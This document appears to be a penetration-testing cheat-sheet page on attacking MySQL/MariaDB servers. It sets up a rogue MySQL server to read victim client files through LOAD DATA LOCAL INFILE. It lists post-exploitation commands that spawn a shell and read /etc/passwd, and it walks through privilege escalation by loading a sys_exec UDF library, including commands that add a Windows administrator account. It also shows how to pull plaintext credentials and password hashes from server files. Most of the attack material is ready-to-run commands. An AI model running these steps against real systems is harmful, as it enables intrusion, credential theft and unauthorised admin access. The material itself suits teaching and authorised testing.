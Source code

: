 # Techniques (MySQL)

### [MySQL injection](../80-443-http-s/sql-injection/mysql-injection.md)

### [Reading files](../80-443-http-s/sql-injection/other-payloads.md#reading-files)

### [Writable files](../80-443-http-s/sql-injection/other-payloads.md#writing-files)

### Rogue MySQL server

Actually, when you try to load local data into a table with the content of a file, the MySQL or MariaDB server asks the client to read it and send the content. So, if you can manipulate a mysql client to connect to your own MyQSL server, you can read arbitrary files.

{% tabs %}
{% tab title="Lab Steup" %}
The first thing is to have **MySQL** or **MariaDB** installed. We will show an example of how to do it on Arch Linux (research for other distributions):

```bash
# Install MariaDB (Arch Linux)
sudo pacman -S mariadb
mariadb-install-db --user=mysql --basedir=/usr --datadir=/var/lib/mysql
sudo systemctl start mariadb
```

Then we log into MySQL and create a rogue MySQL server:

```bash
sudo mysql
CREATE USER '<USERNAME>'@'localhost' IDENTIFIED BY '<PASSWORD>';
GRANT ALL PRIVILEGES ON *.* TO '<USERNAME>'@'localhost';
FLUSH PRIVILEGES;
CREATE DATABASE rogueDB;
use rogueDB;
CREATE TABLE content (data TEXT);
quit
```

In addition, we will have to expose the MySQL server remotely so that the victim client can connect to us. To do this, we must modify the bind-address value in the `/etc/my.cnf.d/server.cnf` file (Arch Linux) or `/etc/mysql/mariadb.conf.d/50-server.cnf` (Debian):

{% hint style="danger" %}
By default, MySQL will listen on address **0.0.0.0.0**, which includes all network interfaces.
{% endhint %}

```bash
[mysqld]
bind-address = <INTERFACE_IP> # We can also use 0.0.0.0, which includes all interfaces.
```

Ready, now the next step is to authenticate to our SQL server from the victim client.
{% endtab %}

{% tab title="Read files" %}
After authenticating against our SQL server, from the victim client, we execute the following statements to read files:

```bash
# The word "local" is very important.
load data local infile "/etc/passwd" into table <TABLE CREATE BEFORE> FIELDS TERMINATED BY '\n';
```
{% endtab %}
{% endtabs %}

## Post Exploitation

### With SQL shell

```bash
# Current Level of access:
select user();
select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='<USERNAME>';
# Access passwords:
select <COLUMN>,<COLUMN> from <TABLE>;
# Create a new user and grant him privileges:
create user test identified by 'test';
grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;
# Break into a shell:
\! cat /etc/passwd
\! bash
```

### Privilege Escalation via library

{% hint style="danger" %}
This attack can be done if we are root in MySQL, and if the user that is running this service is another one to which we do not have access. This user can be another normal user and even the `NT AUTHORITY\SYSTEM` in Windows or root in Linux.
{% endhint %}

As the root user in MySQL, we can write to files and load arbitrary plugins. We can use this to create a sys\_exec function that will execute any command as the user under which MySQL is running. But first, we will need to find out what architecture the operating system is on, as well as find out where the plugins are stored:

```sql
> select @@version_compile_os, @@version_compile_machine;
+----------------------+---------------------------+
| @@version_compile_os | @@version_compile_machine |
+----------------------+---------------------------+
| Win64                | x86                       |    # 64 bits
+----------------------+---------------------------+

> select @@plugin_dir;
+-----------------------------------------------------+
| @@plugin_dir                                        |
+-----------------------------------------------------+
| C:\Program Files\MySQL\MySQL Server 5.5\lib\plugin\ | # Path to put the compiled library.
+-----------------------------------------------------
```

You can find the compiled versions of these libraries in sqlmap and/or metasploit:

```bash
# For Linux:
lib_mysqludf_sys_32.so
lib_mysqludf_sys_64.so
# For Windows:
lib_mysqludf_sys_32.dll
lib_mysqludf_sys_64.dll
```

We upload the library to a directory with write permissions such as `/tmp`, we log into MySQL to execute the following statements:

{% tabs %}
{% tab title="Linux" %}
```sql
use mysql;
create table npn(line blob);
insert into npn values(load_file('/tmp/<SO FILE>'));
select * from npn into dumpfile '<PLUGIN PATH>/<SO FILE>';
create function sys_exec returns integer soname '<SO FILE>'; # Creamos la función llamada "sys_exec" que la usaremos para ejecutar comandos.
# Execute commands:
select sys_exec('id > /tmp/out.txt');
```
{% endtab %}

{% tab title="Windows" %}
```sql
USE mysql;
CREATE TABLE npn(line blob);
INSERT INTO npn values(load_files('C://temp//<DLL FILE>'));
SELECT * FROM mysql.npn INTO DUMPFILE '<PLUGIN PATH>/<DLL FILE>';
CREATE FUNCTION sys_exec RETURNS integer SONAME '<DLL FILE>';
# Execute commands:
SELECT sys_exec("net user npn npn12345678 /add");
SELECT sys_exec("net localgroup Administrators npn /add");
```
{% endtab %}
{% endtabs %}

### Extracting MySQL credentials from files

Inside `/etc/mysql/debian.cnf` you can find the plaintext password of the user **debian-sys-maint**:

```bash
cat /etc/mysql/debian.cnf
```

You can **use these credentials to log into the mysql database**.

Inside the file `/var/lib/mysql/mysql/user.MYD` you can find **all the MySQL user hashes** (which you can extract from mysql.user inside the database). You can extract them by doing:

```
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```

### Enabling logging

You can enable mysql query logging inside `/etc/mysql/my.cnf` by uncommenting the following lines:

![](../../.gitbook/assets/enabling\_logging\_mysql.png)
